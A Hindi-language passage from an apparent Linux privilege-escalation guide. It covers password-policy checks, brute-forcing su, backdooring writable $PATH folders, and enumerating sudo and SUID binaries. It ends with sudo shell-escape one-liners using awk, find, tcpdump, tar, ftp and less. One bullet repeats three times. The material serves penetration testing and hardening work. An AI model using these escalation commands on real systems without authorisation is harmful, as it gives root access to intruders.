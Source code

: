 एक मजबूत पासवर्ड नीति अपनाना आपके लिनक्स सिस्टम की सुरक्षा को बढ़ाने में मदद कर सकता है। यह नीति उपयोगकर्ताओं को मजबूत पासवर्ड चुनने के लिए प्रोत्साहित करती है और अनधिकृत पहुंच से बचाती है। यहां कुछ महत्वपूर्ण पासवर्ड नीति सुझाव हैं:

- पासवर्ड की लंबाई कम से कम 8 वर्ण होनी चाहिए।
- पासवर्ड में कम से कम एक अपरकेस अक्षर, एक लोअरकेस अक्षर, एक संख्या और एक विशेष वर्ण (जैसे !, @, #, $) होना चाहिए।
- पासवर्ड को नया बनाने के लिए पुराने पासवर्ड की आवश्यकता होनी चाहिए।
- उपयोगकर्ता को नया पासवर्ड बनाते समय पासवर्ड की पुष्टि करनी चाहिए।
- उपयोगकर्ता को नया पासवर्ड बनाते समय पासवर्ड की पुष्टि करनी चाहिए।
- उपयोगकर्ता को नया पासवर्ड बनाते समय पासवर्ड की पुष्टि करनी चाहिए।

आप इन सुझावों को अपने लिनक्स सिस्टम में लागू करके अपने पासवर्ड नीति को मजबूत बना सकते हैं।
```bash
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```
### ज्ञात पासवर्ड

यदि आपके पास पर्याप्त पासवर्ड हैं, तो प्रत्येक उपयोगकर्ता के रूप में लॉगिन करने का प्रयास करें।

### Su Brute

यदि आपको शोर करने के बारे में कोई चिंता नहीं है और कंप्यूटर पर `su` और `timeout` बाइनरी मौजूद हैं, तो आप [su-bruteforce](https://github.com/carlospolop/su-bruteforce) का उपयोग करके उपयोगकर्ता को ब्रूट-फोर्स करने का प्रयास कर सकते हैं।\
[**Linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) को `-a` पैरामीटर के साथ भी उपयोगकर्ताओं को ब्रूट-फोर्स करने का प्रयास करता है।

## लिखने योग्य पाथ का दुरुपयोग

### $PATH

यदि आपको पाया जाता है कि आप **$PATH के कुछ फ़ोल्डर में लिख सकते हैं**, तो आप लिखने योग्य फ़ोल्डर के अंदर एक बैकडोर बनाकर वर्चस्व को बढ़ा सकते हैं, जिसका नाम किसी अन्य उपयोगकर्ता (आदर्श रूप से रूट) द्वारा निष्पादित किया जाने वाले कमांड का होता है और जो आपके लिखने योग्य फ़ोल्डर से पहले स्थित नहीं होता है।

### SUDO और SUID

आपको सुदो का उपयोग करके कुछ कमांड को निष्पादित करने की अनुमति मिल सकती है या उनके पास सुइड बिट हो सकता है। इसे जांचने के लिए निम्न का उपयोग करें:
```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```
कुछ **अप्रत्याशित कमांड आपको फ़ाइलों को पढ़ने और/या लिखने या कमांड को चलाने की अनुमति देते हैं।** उदाहरण के लिए:
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```
### NOPASSWD
